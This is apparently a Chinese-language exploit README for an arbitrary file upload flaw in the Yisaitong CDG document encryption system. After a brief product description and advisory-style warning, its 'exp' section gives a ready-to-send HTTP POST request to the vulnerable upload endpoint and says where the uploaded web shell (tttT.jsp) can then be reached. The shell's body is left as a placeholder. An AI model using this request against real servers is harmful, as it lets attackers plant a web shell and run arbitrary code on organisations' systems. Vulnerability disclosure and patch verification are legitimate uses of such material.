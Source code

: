 

# 亿赛通 /UploadFileFromClientServiceForClient 任意文件上传漏洞

## 介绍

亿某通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业校心重要数据资产,对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。

近日监测发现某通电子文档安全管理系统任意文件上传漏洞，攻击者可通过发送特制请求来利用此漏洞，成功利用此漏洞可在目标系统上执行任意代码。

对此，建议广大用户做好资产自查以及预防工作，以免遭受黑容攻击。

## 影响范围

其他未确认版本需自查



## exp

直接bp发包即可，shell访问地址：https://x.x.x.x/tttT.jsp
```
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM HTTP/1.1
Host: xxx:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Content-Length: 1

shell内容
```




人人为我，我为人人。转载请标明出处：https://github.com/di0xide-U/YSTupload/

